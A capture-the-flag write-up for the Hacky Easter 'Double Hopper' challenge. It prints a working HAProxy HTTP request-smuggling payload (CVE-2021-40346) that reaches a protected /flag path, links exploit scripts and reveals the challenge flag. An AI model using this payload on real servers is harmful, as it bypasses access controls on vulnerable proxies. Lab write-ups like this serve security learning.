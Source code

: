 # Challenge "Double Hopper"
<img src="banner.jpg" width="400px" alt="Banner Image" />

Double hopper will not show you a double whopper.

[Double Hopper web site](http://ch.hackyeaster.com:2406/)

Note: The service is restarted every hour at x:00.

[config.txt](config.txt)

# Solution
The [config.txt](config.txt) file suggests a HAProxy web server configuration. Searching for path configuration vulnerabilities for that kind of server suggests the following possible exploit: https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/

By using this approach, we see the flag path: https://github.com/alexOarga/CVE-2021-40346/blob/main/payload

[payload](payload)

    POST /index HTTP/1.1
    Host: ch.hackyeaster.com:2406
    Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa: 
    Content-Length: 23

    GET /flag HTTP/1.1
    h: GET /index HTTP/1.1
    Host: ch.hackyeaster.com:2406


Output in HTML:

    <img src="/static/flag-55a8408e060a25096eb95be8b86f3a2c66f91193.png"/>

With this script and some adjustments, we can then download the flag.png https://github.com/alikarimi999/CVE-2021-40346/blob/main/exploit.py:

[solver.py](solver.py)

![flag.png](flag.png)

## The flag
    he2024{Smu66l1m6_4ll_th3_t1m3!}
